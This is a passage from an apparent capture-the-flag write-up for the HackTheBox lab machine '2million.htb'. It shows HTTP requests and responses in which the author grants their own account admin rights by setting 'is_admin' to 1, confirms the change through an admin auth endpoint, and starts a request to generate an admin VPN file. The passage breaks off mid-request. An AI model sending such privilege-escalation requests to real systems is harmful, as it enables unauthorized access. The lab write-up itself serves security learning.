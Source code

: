 ```http
"is_admin": 1

}

```

> Response:

```http

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:54:26 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 46

{"id":13,"username":"sonyahack1","is_admin":1}

```

> Ok. Now the user `sonyahack1` (that's me) is assigned the role `admin`. You can check this by repeating the request to the api endpoints `/api/v1/admin/auth`:

```http

GET /api/v1/admin/auth HTTP/1.1

```
> Response:

```http

{"message":true}

```
---
> **Note:** I want to clarify that I could of course skip all these similar (and possibly tedious) steps for composing a correct PUT request and not describe them in my writeup.
> For many this will be obvious. But I think it is important to explain that such PUT requests must have a correct form so that the server can process them.
> Otherwise this is equivalent to an error.
---

> Repeating the request to generate a VPN file for the `admin` role:

> Request:
```http

POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Referer: http://2million.htb/
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 32

{
```